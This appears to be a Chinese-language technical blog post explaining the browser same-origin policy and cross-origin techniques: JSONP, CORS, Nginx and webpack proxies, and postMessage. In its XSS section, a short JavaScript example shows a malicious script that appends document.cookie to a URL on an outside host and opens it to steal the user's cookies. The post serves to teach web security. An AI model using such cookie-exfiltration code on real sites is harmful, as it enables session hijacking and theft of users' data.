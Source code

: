 ```yaml
---
title: 浏览器为何限制跨域访问？
categories:
 - Browser
tags:
 - 浏览器安全
 - 跨域
 - 同源策略
 - Same Origin Policy
 - JSONP
 - CORS
 - 代理
date: 2022-10-09
sidebar: 'auto'
---
```


## 前言
假如页面没有安全策略：
* Web是开放的，任何资源可以介入，自己网站可以加载并执行他人网站的脚本文件、图片、音视频等资源，甚至下载其他站点的可执行文件。
* 页面上行为没有任何限制造成无序混沌的局面、不可控。

打开一个银行站点，又打开一个恶意站点，恶意站点将可以做很多事情：
* 修改银行站点的DOM、CSSOM等信息；
* 在银行站点内部插入JavaScript脚本；
* 劫持用户登录的用户名和密码；
* 读取银行站点的Cookie、IndexDB等数据；
* 将信息上传至自己的服务器，伪造转账请求；

**没有安全策略的Web，我们是没有隐私的，所以需要安全策略来保障隐私和数据的安全。**<br/>
:::tip
页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。
::: 

## 同源策略
两个URL => 协议（http）、域名（mobs.fun）、端口（80）相同 => URL同源。<br/>
浏览器默认同源之间可以**相互访问资源和操作DOM**，不同源之间若想要相互访问资源或者操作DOM，会有**一套基础的安全策略的制约**（同源策略）。<br/>
同源策略三个层面：
1. DOM层面 => 同源策略限制了不同源的JavaScript脚本对当前站点DOM对象读和写的操作。
2. 数据层面 => 同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。无法通过第二个页面的[opener](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/opener)来访问第一个页面中的Cookie、IndexDB、LocalStorage等数据。
3. 网络层面 => 同源策略限制了通过[XMLHttpRequest](../javascript/XMLHttpRequest.html)等方式将站点的数据发送给不同源的站点。

## 安全性和便利性的权衡
同源策略隔离了不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>
但是安全性和便利性是相互对立的，不同的源之间绝对隔离，可以说是最安全的措施，但这会让Web项目变得难以开发和使用。所以需要做出权衡，**出让一些安全性来满足灵活性。**<br/>
浏览器出让的同源策略的安全性有哪些：
1. 页面中可以嵌入第三方资源
2. 跨域资源共享
3. 跨文档消息机制

### 页面中可以嵌入第三方资源
同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上。这其实违背了Web的初衷，也带来了很多限制。比如我们需要引用不同CDN上的资源，域名其实是不同的，我们是需要同源策略支持页面任意引用外部文件，所以最初的浏览器都是支持引用外部资源文件的。<br/>
**JSONP跨域：**
* 只支持GET请求（script标签src限制get请求），利用了浏览器支持加载外部JavaScript资源文件时不受同源策略的限制。
* 需要服务端和前端配合。
```js
var newscript = document.createElement('script');
newscript.src = 'https://mobs.fun?callback=fn'
document.body.appendChild(newscript);
// 定义fn函数
function fn(data) {
  console.log(data);
}
// 服务端
// 监听请求参数callback，返回response资源 => fn({'服务端数据'})
// 返回的fn({'服务端数据'})作为JS脚本直接执行
```
**带来的弊端：**
* HTML文件注入恶意JavaScript脚本
* XSS攻击。
```js
function onClick(){
 // 恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部。
 // 当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。
 let url = `http://test.com?cookie=${document.cookie}`
 open(url)
}
onClick()
```
解决XSS攻击，浏览器中引入了[内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)（CSP），CSP的核心思想是**让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。

### 跨域资源共享（CORS）
一般情况，通过XMLHttpRequest or Fetch来请求其他站点的资源，同源策略会阻止向其发出请求。为了解决这个问题，引入了[跨域资源共享](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)（Cross-Origin Resource Sharing），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。<br/>
* 传输HTTP头构成CORS。
* HTTP头决定浏览器是否能够跨域请求数据。
* 服务端增加HTTP头即可构成CORS。

实现：CORS将请求分为简单请求（Simple Requests）和预检请求（Preflighted requests）
1. [简单请求](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS) => GET、HEAD、POST<br/>
   * Accept
   * Accept-Language
   * Content-Language
   * Content-Type => application/x-www-form-urlencoded、multipart/form-data、text/plain
2. [预检请求](https://developer.mozilla.org/zh-CN/docs/Glossary/Preflight_request) => **可能对服务器数据产生副作用的HTTP请求方法**，浏览器会先自动向服务端发送一个OPTIONS请求，根据服务端返回的Access-Control-Allow-*判定是否允许发起实际的HTTP请求，在预检请求的返回中，服务器端也可通知客户端是否需要携带身份凭证（Cookies、HTTP认证相关数据）<br/>
   * Access-Control-Allow-Origin
   * Access-Control-Allow-Methods
   * Access-Control-Allow-Headers
   * Access-Control-Allow-Credentials

当请求的响应头符合上述条件，浏览器才发送并响应请求。
:::tip
Access-Control-Allow-Origin设置为*其实意义不大形同虚设，实际上线一般会将Access-Control-Allow-Origin值设为目标主机地址Host。
:::

### Proxy代理
代理（Proxy）也称网络代理：**允许一个客户端通过这个网络代理服务与另一个网络终端进行非直接的连接**。一些网关、路由器等网络设备支持网络代理。一般认为代理服务有利于保障网络终端的隐私安全，防止攻击。
:::tip
核心 => 借助同源的服务器去发送请求（请求代理转发），将跨域请求转换成同源请求。
:::
页面请求所在同域的服务器 => 服务器向目标服务器请求数据 => 返回给前端页面。
1. 配置Nginx实现代理
```json
server {
    listen  80;
    location /api {
      # 转发代理的目标服务器  
      proxy_pass  http://127.0.0.1:3000;
    }
}
```
2. 本地开发代理
借助webpack开启一个本地服务器作为代理服务器，借助代理服务器去请求目标服务器，结果转发回前端。<br/>
PS：**最终发布上线时如果web应用和接口服务器不在一起仍会跨域**。
```js
module.exports = {
    devServer: {
        host: '127.0.0.1',
        port: 8080,
        proxy: {
            // 告诉node，url前面是/api就使用代理
            '/api': { 
                // 目标服务器
                target: "http://xxx.xxx.xx.xx", 
                // 是否跨域
                changeOrigin: true,
                // 把实际Request Url中的/api用" "代替
                pathRewrite: { 
                    '^/api': " " 
                }
            }
        }
    }
}
// 配置axios发送请求的根路径
axios.defaults.baseURL = '/api'
```
### 跨文档消息机制
同源策略下，如果两个页面不同源的，则无法相互操纵DOM。实际情况下，经常需要两个不同源的DOM之间进行通信，所以浏览器中又引入了跨文档消息机制，可以通过JavaScript接口[window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage)来进行不同源的DOM通信。

## 总结
* 同源策略隔离不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>

目前在安全性和便利性权衡下的安全策略特点：
1. 页面可以引用第三方资源 => 暴露了很多安全问题（XSS攻击）=> 在此基础上引入了CSP来限制其自由程度。 
2. 使用XMLHttpRequest和Fetch是无法直接进行跨域请求的 => 浏览器在其基础上引入了**跨域资源共享策略**，让其安全地进行跨域操作。
3. 两个不同源的DOM不能相互操纵 => 浏览器中实现了**跨文档消息机制**让其安全地通信。
4. JSONP、请求代理等方案实现跨域。